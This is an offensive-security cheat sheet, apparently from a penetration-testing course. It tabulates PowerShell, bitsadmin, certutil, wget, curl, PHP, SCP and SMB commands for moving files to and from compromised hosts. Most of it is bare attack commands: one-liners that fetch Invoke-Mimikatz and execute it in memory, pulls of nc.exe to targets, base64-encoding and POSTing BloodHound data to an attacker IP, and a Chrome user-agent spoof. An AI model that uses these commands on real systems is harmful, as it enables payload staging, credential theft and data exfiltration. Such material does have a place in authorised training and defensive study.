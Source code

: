 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 \| iex` | Alias iex |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| iex` | Basic Parser |
| `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` | Encoding b64 |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` | Download using import |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` | Download |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |


Linux -> `impacket-smbserver smbFolder $(pwd) -smb2support`
Windows -> `copy <file> \\<ip>\smbFolder\<file>`
